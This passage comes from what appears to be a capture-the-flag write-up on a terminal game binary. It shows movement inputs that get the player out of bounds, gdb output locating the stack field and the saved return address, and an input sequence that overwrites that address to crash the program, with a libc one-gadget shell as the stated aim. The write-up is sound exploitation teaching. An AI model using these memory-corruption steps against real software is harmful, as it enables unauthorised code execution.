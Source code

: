 ```
ssddadsdwwwwwwwaawasssssssssssaawwaaawwwwwwwwwwwwwww
```

If we send this sequence to the game we suddenly end up in `(0,255)`.
Using +,-,1,2 we can now edit random bytes in the memory.

<div id="terminal-outofbounds"></div>
<script>render_typescript("outofbounds.typescript","terminal-outofbounds",30);  </script>

# Rip Control

Our goal would be to jump to the magic gadget in libc, to execute a shell.
Even though we can use any return address, it is easier to use `__libc_start_main` which already points to libc.
Therefore, we only have to change a small offset.


```
gdb-peda$ b render_field
[...]
gdb-peda$ p $rdi
$1 = 0x7fffffffd2c0 #address of field[]
gdb-peda$ bt
#0  0x0000555555555551 in render_field ()
#1  0x00005555555557c9 in render_all ()
#2  0x0000555555556198 in main_loop ()
#3  0x00005555555565e0 in main ()
#4  0x00007ffff7dc5223 in __libc_start_main () from /usr/lib/libc.so.6
#5  0x000055555555514e in _start ()
gdb-peda$ info frame 3
Stack frame at 0x7fffffffdc00:
 rip = 0x5555555565e0 in main; saved rip = 0x7ffff7dc5223
 [...]
 rbx at 0x7fffffffdbe8, rbp at 0x7fffffffdbf0, rip at 0x7fffffffdbf8
```

The field is stored on stack at `0x7fffffffd2c0` and our target return address is at `0x7fffffffdbf8` so we need to write at offset `2360`.
The index is computed as `idx = y * FIELD_WIDTH + x` so our return address is stored from `(0,236)` to `(7,236)`.
After getting out of bounds, we can try to overwrite that address.
For a simple proof of concept, we can now try to overwrite the upper two bytes with some value to trigger a SIGSEGV.
This can be done using the following sequence.


```
ssddadsdwwwwwwwaawasssssssssssaawwaaawwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwdddddd+1d+1q
```

Indeed, after an exit the game crashes at `0x11117ffff7dc5223`, therefore our theory seems to be correct.

<div id="terminal-segv"></div>
<script>render_typescript("segv.typescript","terminal-segv",30);  </script>
